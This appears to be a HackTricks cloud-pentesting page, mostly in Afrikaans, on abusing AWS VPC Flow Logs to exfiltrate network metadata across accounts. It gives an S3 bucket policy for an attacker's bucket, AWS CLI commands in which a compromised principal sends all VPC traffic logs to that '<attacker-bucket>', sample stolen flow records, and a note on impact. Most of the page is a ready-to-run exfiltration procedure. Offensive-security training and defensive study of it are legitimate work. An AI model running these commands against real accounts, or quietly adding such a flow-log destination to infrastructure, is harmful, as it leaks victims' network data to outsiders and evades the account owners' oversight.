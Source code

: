 # AWS - VPC Flow Logs Cross-Account Exfiltration to S3

{{#include ../../../../banners/hacktricks-training.md}}

## Opsomming
Misbruik `ec2:CreateFlowLogs` om VPC-, subnet- of ENI flow logs direk na 'n aanvallerbeheer S3-bucket te exporteer. Sodra die delivery role gekonfigureer is om na die eksterne bucket te skryf, word elke verbinding wat op die gemoniteerde hulpbron gesien word, uit die victim account uitgestroom.

## Vereistes
- Victim principal: `ec2:CreateFlowLogs`, `ec2:DescribeFlowLogs`, and `iam:PassRole` (if a delivery role is required/created).
- Attacker bucket: S3 policy that trusts `delivery.logs.amazonaws.com` with `s3:PutObject` and `bucket-owner-full-control`.
- Opsioneel: `logs:DescribeLogGroups` if exporting to CloudWatch instead of S3 (not needed here).

## Aanvalsstap-vir-stap

1) **Attacker** stel 'n S3-bucketbeleid op (in attacker account) wat die VPC Flow Logs delivery service toelaat om objekte te skryf. Vervang plaashouers voordat u dit toepas:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "AllowVPCFlowLogsDelivery",
"Effect": "Allow",
"Principal": { "Service": "delivery.logs.amazonaws.com" },
"Action": "s3:PutObject",
"Resource": "arn:aws:s3:::<attacker-bucket>/flowlogs/*",
"Condition": {
"StringEquals": { "s3:x-amz-acl": "bucket-owner-full-control" }
}
}
]
}
```
Pas toe vanaf die attacker account:
```bash
aws s3api put-bucket-policy \
--bucket <attacker-bucket> \
--policy file://flowlogs-policy.json
```
2) **Victim** (compromised principal) skep die flow logs wat die attacker bucket teiken:
```bash
REGION=us-east-1
VPC_ID=<vpc-xxxxxxxx>
ROLE_ARN=<delivery-role-with-logs-permissions>   # Must allow delivery.logs.amazonaws.com to assume it
aws ec2 create-flow-logs \
--resource-type VPC \
--resource-ids "$VPC_ID" \
--traffic-type ALL \
--log-destination-type s3 \
--log-destination arn:aws:s3:::<attacker-bucket>/flowlogs/ \
--deliver-logs-permission-arn "$ROLE_ARN" \
--region "$REGION"
```
Binne minute verskyn flow log-lêers in die attacker bucket wat verbindings bevat vir alle ENIs in die gemonitorde VPC/subnet.

## Bewyse

Voorbeeld flow log-opnames wat na die attacker bucket geskryf is:
```text
version account-id interface-id srcaddr dstaddr srcport dstport protocol packets bytes start end action log-status
2 947247140022 eni-074cdc68182fb7e4d 52.217.123.250 10.77.1.240 443 48674 6 2359 3375867 1759874460 1759874487 ACCEPT OK
2 947247140022 eni-074cdc68182fb7e4d 10.77.1.240 52.217.123.250 48674 443 6 169 7612 1759874460 1759874487 ACCEPT OK
2 947247140022 eni-074cdc68182fb7e4d 54.231.199.186 10.77.1.240 443 59604 6 34 33539 1759874460 1759874487 ACCEPT OK
2 947247140022 eni-074cdc68182fb7e4d 10.77.1.240 54.231.199.186 59604 443 6 18 1726 1759874460 1759874487 ACCEPT OK
2 947247140022 eni-074cdc68182fb7e4d 16.15.204.15 10.77.1.240 443 57868 6 162 1219352 1759874460 1759874487 ACCEPT OK
```
Bewys van Bucket-lys:
```bash
aws s3 ls s3://<attacker-bucket>/flowlogs/ --recursive --human-readable --summarize
```
## Impak
- Voortdurende netwerkmetadata exfiltration (bron/bestemming IP-adresse, poorte, protokolle) vir die gemonitorde VPC/subnet/ENI.
- Maak verkeersontleding, identifisering van sensitiewe dienste en potensiële soektog na security group-miskonfigurasies van buite die geaffekteerde rekening moontlik.

{{#include ../../../../banners/hacktricks-training.md}}
